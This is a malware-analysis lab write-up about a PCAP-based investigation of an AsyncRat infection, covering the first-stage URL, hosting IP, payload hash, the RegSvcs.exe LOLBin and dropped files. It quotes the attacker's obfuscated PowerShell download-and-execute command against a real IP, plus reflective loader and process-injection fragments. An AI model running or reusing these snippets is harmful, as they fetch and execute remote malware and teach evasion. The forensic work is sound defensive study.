



# XMLRat Lab

## Overview

This investigation focused on analyzing a suspicious PCAP and associated malicious scripts to identify the initial malware download, hosting infrastructure, malware payload, execution technique, and files dropped during the compromise.

The investigation covered the following areas:

- Initial malware download and URL analysis
- Hosting provider identification
- Payload extraction and SHA256 hashing
- Malware family identification
- PE compile timestamp analysis
- LOLBin identification
- Dropped-file identification

---

# Initial Malware Download

## Investigation

The HTTP traffic and reconstructed PowerShell command were examined to identify the URL used to download the first malware stage.


### Finding 1: Obfuscated Download Command

The attacker used an obfuscated PowerShell command to construct a download-and-execute expression. The command was split across multiple variables to make the URL and execution logic less obvious during initial inspection.

Original obfuscated command:
```
[BYTe[]];$A123='IeX(NeW-OBJeCT Net.W';$B456='eBCLIeNT).DOWNLO';
[BYTe[]];$C789='VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACE('VAN','ADSTRING');
[BYTe[]];IeX($A123+$B456+$C789)
```

Reconstructed download string:
```
New-WebClient.DOWNLOADSTRING('http://45.126.209.4:222/mdm.jpg')
```

The command stores fragments in variables ($A123, $B456, and $C789) and concatenates them to reconstruct the expression. The -replace operation changes the placeholder VAN to ADSTRING, helping conceal the download function during initial inspection.

### Finding 2: First-Stage URL

| Artifact | Value |
| -------- | ----- |
| URL | `http://45.126.209.4:222/mdm.jpg` |
| Protocol | HTTP |
| Server IP | `45.126.209.4` |
| Port | `222` |
| Resource | `mdm.jpg` |

The first stage was retrieved from the URL shown above.

---

# Hosting Infrastructure

An IP WHOIS lookup was used to identify the hosting provider associated with the server IP.



### Finding 1: Hosting Provider

| Artifact | Value |
| -------- | ----- |
| IP Address | `45.126.209.4` |
| Hosting Provider | `ReliableSite.net` |

The WHOIS lookup associated the IP address with ReliableSite.net.

---

# Malware Payload Analysis

The malicious scripts contained byte-array data representing payloads. The extracted bytes were converted from hexadecimal and hashed to identify the malware executable.



### Finding 1: Payload Loading

The script converted hexadecimal strings into byte arrays and loaded the payload through .NET reflection:

```powershell
Sleep 5
[Byte[]] $NKbb = $hexString_bbb -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
[Byte[]] $pe = $hexString_pe -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }

Sleep 5
$HM = 'L###############o################a#d' -replace '#', ''
$Fu = [Reflection.Assembly]::$HM($pe)
```

### Finding 2: Executable SHA256



The hexadecimal payload string was processed in CyberChef by replacing underscores with empty strings, converting from hexadecimal, and calculating the SHA256 hash.

| Artifact | Value |
| -------- | ----- |
| SHA256 | `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798` |

### Finding 3: Malware Family

| Artifact | Value |
| -------- | ----- |
| Identification Source | VirusTotal |
| Malware Family | `AsyncRat` |

VirusTotal identified the malware family label as AsyncRat, based on the investigation notes.

### Finding 4: PE Compile Timestamp

| Artifact | Value |
| -------- | ----- |
| PE Creation Time | `2023-10-30 15:08:44` |

The PE header compile timestamp recorded during the investigation was `2023-10-30 15:08:44`.

---

# Stealthy Process Execution

The script reconstructed a Windows .NET Framework executable path by removing obfuscation characters from string fragments.

### Finding 1: LOLBin

| Artifact | Value |
| -------- | ----- |
| LOLBin | `RegSvcs.exe` |
| Full Path | `C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\RegSvcs.exe` |

The script used `RegSvcs.exe` from the .NET Framework directory as part of its execution technique.

The relevant obfuscated fragments were:

```powershell
$NK = $Fu.GetType('N#ew#PE#2.P#E'-replace  '#', '')
$MZ = $NK.GetMethod('Execute')
$NA = 'C:\\Windows\\Mi####cr'-replace  '#', ''
$AC = $NA + 'osof#####t.NET\\Fra###mework\\v4.0.303###19\\R##egSvc#####s.exe'-replace  '#', ''
$VA = @($AC, $NKbb)
```

Removing the `#` characters from the path fragments reconstructs the executable path listed above.

---

# Dropped Files

The script was designed to drop multiple files on the compromised system.

### Finding 1: File Names

| Artifact | Value |
| -------- | ----- |
| Dropped File 1 | `conted.ps1` |
| Dropped File 2 | `conted.bat` |
| Dropped File 3 | `conted.vbs` |

The three filenames identified in the investigation notes were `conted.ps1`, `conted.bat`, and `conted.vbs`.

---

# Key Findings

| Investigation Area | Finding |
| ------------------ | ------- |
| First-Stage URL | `http://45.126.209.4:222/mdm.jpg` |
| Server IP | `45.126.209.4` |
| Hosting Provider | `ReliableSite.net` |
| Malware SHA256 | `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798` |
| Malware Family | `AsyncRat` |
| PE Compile Timestamp | `2023-10-30 15:08:44` |
| LOLBin | `RegSvcs.exe` |
| LOLBin Full Path | `C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\RegSvcs.exe` |
| Dropped Files | `conted.ps1`, `conted.bat`, `conted.vbs` |

---

# Skills Demonstrated

- PCAP Analysis
- HTTP Traffic Investigation
- PowerShell Deobfuscation
- Malware Download Identification
- WHOIS and Hosting Provider Lookup
- Payload Extraction
- Windows Malware Execution Analysis
